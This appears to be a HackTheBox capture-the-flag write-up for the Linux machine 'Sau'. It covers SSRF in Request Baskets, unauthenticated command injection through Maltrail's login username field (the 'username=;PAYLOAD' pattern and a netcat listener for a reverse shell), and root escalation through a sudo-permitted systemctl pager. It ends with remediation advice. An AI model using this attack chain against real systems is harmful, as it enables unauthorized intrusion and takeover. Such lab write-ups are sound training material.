


# Sau (HTB) Writeup

## Overview

**Sau** is an Easy Linux machine on HackTheBox. It features a vulnerable instance of **Request Baskets** (SSRF, CVE-2023-27163) and **Maltrail** (Unauthenticated OS Command Injection). Exploiting these allows initial access as `puma`, followed by privilege escalation to `root` via a misconfigured `sudo` rule.

---

## Scanning

Initial enumeration with Nmap reveals:

````bash
nmap -sT -sV 10.129.127.81
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7
80/tcp    filtered http
55555/tcp open     unknown
````

---

## Exploitation

### 1. SSRF in Request Baskets

The **Request Baskets** service (up to v1.2.1) is vulnerable to SSRF via `/api/baskets/{name}`. This allows attackers to make arbitrary requests from the server, accessing internal resources.

### 2. Maltrail OS Command Injection

Maltrail’s web service is exposed internally. The `username` parameter on the login page is not sanitized, allowing unauthenticated command injection. The backend uses `subprocess.check_output` on user input, enabling arbitrary command execution.

#### Exploit Steps

- Use SSRF to access Maltrail’s login page.
- Inject a payload into the `username` parameter, e.g., `username=;PAYLOAD`.
- The payload can be a reverse shell, e.g., base64-encoded Python.

Example exploit (adapted from [Rubioo02/Maltrail-v0.53-RCE](https://github.com/Rubioo02/Maltrail-v0.53-RCE/blob/main/exploit.sh)):

````bash
nc -nlvp 4444
# Wait for connection...
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
````

---

## Privilege Escalation

Check `sudo` permissions:

````bash
sudo -l
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
````

Abuse this to spawn a root shell:

````bash
sudo /usr/bin/systemctl status trail.service
# When prompted, enter: !/bin/bash
root@sau:/home/puma# id
uid=0(root) gid=0(root) groups=0(root)
````

---

## Conclusion

- **Root access obtained.**
- **Flags captured.**

---

## Screenshots




---

## Recommendations

- Update **Request Baskets** to a patched version.
- Sanitize user input in **Maltrail**.
- Restrict `sudo` permissions for non-admin users.
- Regularly audit exposed services and internal endpoints.